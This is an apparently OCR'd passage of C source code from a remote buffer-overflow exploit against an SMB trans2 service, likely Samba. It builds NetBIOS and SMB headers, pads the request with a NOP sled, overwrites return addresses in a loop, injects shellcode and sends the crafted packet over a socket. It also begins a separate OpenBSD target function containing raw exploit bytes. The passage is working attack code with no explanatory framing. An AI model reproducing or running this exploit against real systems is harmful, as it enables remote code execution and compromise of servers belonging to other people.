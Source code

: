             int i = 0;
            unsigned long dummy = ret - 0x90;

            NETBIOS_HEADER  *netbiosheader;
            SMB_HEADER      *smbheader;

            memset(buffer, 0x00, sizeof(buffer));

            netbiosheader   = (NETBIOS_HEADER *)buffer;
            smbheader       = (SMB_HEADER *)(buffer + sizeof(NETBIOS_HEADER));

            netbiosheader->type             = 0x00;         /* session message */
            netbiosheader->flags            = 0x04;
            netbiosheader->length           = htons(2096);

            smbheader->protocol[0]          = 0xFF;
            smbheader->protocol[1]          = 'S';
            smbheader->protocol[2]          = 'M';
            smbheader->protocol[3]          = 'B';
            smbheader->command              = 0x32;         /* SMBtrans2 */
            smbheader->tid                  = 0x01;
            smbheader->uid                  = 100;

            memset(buffer + sizeof(NETBIOS_HEADER) + sizeof(SMB_HEADER) + sizeof(exploit_data), 0x90, 3000);

            buffer[1096] = 0xEB;
            buffer[1097] = 0x70;

            for (i = 0; i < 4 * 24; i += 8) {
                    memcpy(buffer + 1099 + i, &dummy, 4);
                    memcpy(buffer + 1103 + i, &ret,   4);
            }

            memcpy(buffer + sizeof(NETBIOS_HEADER) + sizeof(SMB_HEADER),
                            exploit_data, sizeof(exploit_data) - 1);
            memcpy(buffer + 1800, shellcode, strlen(shellcode));

            if(write_timer(sock, 3) == 1) {
                    if (send(sock, buffer, sizeof(buffer) - 1, 0) < 0) return -1;
                    return 0;
            }

            return -1;
    }

    int exploit_openbsd32(int sock, unsigned long ret, char *shellcode)
    {
            char buffer[4000];

            char exploit_data[] =
                    "\x00\xd0\x07\x0c\x00\xd0\x07\x0c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
                    "\x00\xd0\x07\x43\x00\x0c\x00\x14\x08\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00"
                    "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
                    "\x00\x00\x00\x90";

            int i = 0;
            unsigned long dummy = ret - 0x30;
            NETBIOS_HEADER  *netbiosheader;
            SMB_HEADER      *smbheader;
